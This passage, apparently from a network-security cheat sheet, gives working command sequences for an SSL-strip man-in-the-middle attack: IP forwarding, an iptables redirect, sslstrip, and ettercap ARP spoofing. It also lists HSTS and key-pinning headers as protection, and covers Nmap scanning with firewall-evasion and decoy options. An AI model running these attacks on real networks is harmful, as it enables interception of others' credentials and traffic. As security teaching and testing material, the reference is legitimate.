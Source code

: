 ### 🕵️ Man-in-the-Middle (MITM)

**SSL Strip Attack**:
```bash
# sslstrip installation
apt-get install sslstrip

# Traffic redirection
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080

# Start sslstrip
sslstrip -l 8080

# Combined with ARP spoofing
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.100//
```

**Protection**:
```bash
# HSTS (HTTP Strict Transport Security)
Strict-Transport-Security: max-age=31536000; includeSubDomains

# Certificate pinning
# Public key pinning
Public-Key-Pins: pin-sha256="base64+primary=="; pin-sha256="base64+backup=="; max-age=5184000
```

---

## 🛠️ Network Security Tools

### 🔍 Network Scanning

**Advanced Nmap Usage**:
```bash
# Stealth SYN scan
nmap -sS -T4 -A -v target.com

# UDP scan
nmap -sU --top-ports 1000 target.com

# Script scanning
nmap --script vuln target.com
nmap --script ssl-enum-ciphers -p 443 target.com
nmap --script http-enum target.com

# Timing templates
nmap -T0  # Paranoid (very slow)
nmap -T1  # Sneaky (slow)
nmap -T2  # Polite (normal)
nmap -T3  # Normal (default)
nmap -T4  # Aggressive (fast)
nmap -T5  # Insane (very fast)

# Firewall evasion
nmap -f target.com                    # Fragment packets
nmap -D RND:10 target.com            # Decoy scan
nmap --source-port 53 target.com     # Source port manipulation
nmap --data-length 25 target.com     # Append random data
```

